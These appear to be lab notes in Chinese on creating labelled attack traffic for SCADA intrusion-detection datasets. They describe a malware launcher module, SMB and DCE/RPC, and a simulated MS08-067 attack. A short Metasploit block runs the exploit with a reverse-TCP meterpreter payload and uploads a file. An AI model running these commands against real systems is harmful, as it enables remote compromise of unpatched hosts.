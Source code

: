 Launcher模块分析：该模块为Main Backdoor下载的众多模块之一，其实际上为黑客的进一步攻击提供一个统一的攻击接口，可以说是专门为运行payload模块而设计的。该模块在系统中以服务程序运行，运行时会创建一个定时器。定时器触发时该模块会创建新线程加载hasio.dat模块并调用hasio.dat模块的Crash函数（关于hasio.），并且执行payload模块的Crash函数。通过启动器模块，恶意代码可以在指定的时间根据命令行运行任意的payload。

------

#### 5/27

1.针对SCADA论文中5个恶意攻击的模式来模拟攻击，并抓取流量。

2.如何在实验平台上抓取的流量进行标注，即：白流量是哪些、恶意流量是哪些；

##### 数据集5

数据集`exploit_ms08_netapi_modbus_6RTU_with_operate.pcap`：1MTU，6RTU，10s轮询间隔，5min。包含 1856 个数据包，其中有 1199 个恶意数据包，恶意流量通过一个被攻破的 RTU 使用 Metasploit ms08_netapi 攻击其他 RTU 生成。（均为IT侧恶意流量）

该数据集中，异常流量的ip源/目的地址全部为101和105，协议不包括modbus，包括【SMB、DCE/RPC、SRVSVC、SPOOLSS】、【TCP、SSLv3】。首先是攻击机通过101跨网段获取了105的权限，然后尝试在101和105之间发送TCP/SSL报文传文件。

##### SMB协议

SMB协议（Server Message Block）：在网络上的端点之间提供对文件、打印机和串行端口的共享访问；客户-服务器模式；基于TCP；位于会话层、表示层

- 客户端发送Negotiate Protocol请求，列出所有SMB协议版本，服务端响应；
- 客户端发送session setup认证请求，服务端响应；
- 完成认证后，客户端发送Tree connect请求，列出想访问的网络资源名称，服务端响应接收连接到该资源
- 连接到相应资源后，客户端
  - 通过read/write读写文件
  - 通过NT create打开文件夹
  - logoff注销会话

##### DCE/RPC 分布式RPC

RPC：远程过程调用，一台机器上的服务调用另一台机器上的服务

DCE/RPC：分布式RPC（Distributed Computing Environment / Remote Procedure Calls）

##### MS08-067 模拟攻击

MS08-067漏洞是通过 MSRPC（对 DCE/RPC 在 Windows 系统下的重新改进和实现） over SMB 通道调用 Server 服务程序中的 NetPathCanonicalize 函数时触发的，而 NetPathCanonicalize 函数在远程访问其他主机时，会调用 NetpwPathCanonicalize 函数，对远程访问的路径进行规范化，而在 NetpwPathCanonicalize 函数中存在的逻辑错误，造成栈缓冲区可被溢出，而获得远程代码执行（Remote Code Execution）。

```sh
use exploit/windows/smb/ms08_067_netapi
set target 34
set payload windows/meterpreter/reverse_tcp
set RHOSTS 192.168.10.138
exploit

meterpreter > upload '/home/mika/Desktop/slav.py' 'C:\\Documents and Settings\\xuegod_root\\桌面'
```

下面是直接用Kali（131）攻击RTU（138），以及上传文件的抓包结果，在131上采集。

攻击机提权后，使得自己作为服务器，让138向131发送TCP请求，读取文件
